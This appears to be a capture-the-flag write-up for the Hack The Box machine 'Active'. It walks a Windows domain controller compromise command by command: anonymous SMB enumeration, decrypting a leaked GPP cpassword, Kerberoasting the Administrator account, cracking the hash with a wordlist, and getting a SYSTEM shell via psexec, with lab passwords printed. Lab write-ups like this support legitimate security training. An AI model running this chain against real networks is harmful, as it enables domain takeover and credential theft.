$ nmap -sC -sV 10.129.62.50

| Port | Service | Version |
|---|---|---|
| 53 | DNS | Microsoft DNS 6.1.7601 (Windows Server 2008 R2 SP1) |
| 88 | Kerberos | — |
| 135 | MSRPC | — |
| 139 | NetBIOS-SSN | — |
| 389 | LDAP | Active Directory, domain: active.htb |
| 445 | SMB | microsoft-ds |
| 464 | kpasswd5 | — |
| 593 | RPC over HTTP | — |
| 636 | LDAPS | tcpwrapped |
| 3268 / 3269 | LDAP/LDAPS GC | — |
| 49152–49167 | MSRPC | dynamic high ports |
$ smbclient -N -L //10.129.62.50/

Anonymous login succeeded. Shares found: ADMIN$, C$, IPC$, NETLOGON, SYSVOL (default DC shares) plus two non-default shares: Users and Replication.

ADMIN$ / C$ require local admin — ruled out immediately for an anonymous sessionReplication stood out — not a default DC share, and its name strongly suggests SYSVOL replication content, which historically contains Group Policy Preferences (GPP) XML files that, prior to MS14-025, could embed local account passwords "encrypted" with a key Microsoft later published publicly\\10.129.62.50\Replication\active.htb\ — confirmed SYSVOL structure, found Policies\ with two GPO folders by GUIDReplication\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\Groups.xml
Downloaded the file with get Groups.xml — the classic location for GPP-stored local/domain account credentials.


<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}">
<User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" ...
<Properties action="U" ... cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"
userName="active.htb\SVC_TGS"/>
</User>
</Groups>
The cpassword value and userName of active.htb\SVC_TGS confirm a genuine GPP credential leak — recoverable because Microsoft published the underlying AES key in its own documentation.
$ gpp-decrypt "edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"
→ GPPstillStandingStrong2k18

$ netexec smb 10.129.62.50 -u SVC_TGS -p 'GPPstillStandingStrong2k18'
→ [+] active.htb\SVC_TGS:GPPstillStandingStrong2k18

No "(Pwn3d!)" indicator — SVC_TGS is a standard domain account without local admin rights on the DC, so further privilege escalation is needed.
$ impacket-GetUserSPNs active.htb/SVC_TGS:'GPPstillStandingStrong2k18' -dc-ip 10.129.62.50

active/CIFS:445, member of Group Policy Creator Owners$ impacket-GetUserSPNs active.htb/SVC_TGS:'GPPstillStandingStrong2k18' -dc-ip 10.129.62.50 -request
→ $krb5tgs$23$... (Administrator TGS-REP hash)

$ john --wordlist=/usr/share/wordlists/rockyou.txt admin_tgs_hash.txt $ john --show admin_tgs_hash.txt → Administrator : Ticketmaster1968

RC4 (etype 23) Kerberoast hashes are expensive to crack, but the Administrator password was still recovered via a standard rockyou.txt wordlist attack — a weak-password issue independent of the Kerberoasting technique itself.
$ impacket-psexec active.htb/administrator:'Ticketmaster1968'@10.129.62.50
psexec uploads a service binary via ADMIN$ and executes it via the Service Control Manager for a SYSTEM-level shell


Anonymous SMB access → Replication share → GPP Groups.xml → cpassword decryption → SVC_TGS credentials → Kerberoasting (Administrator SPN found) → TGS hash cracked → Administrator credentials → psexec → SYSTEM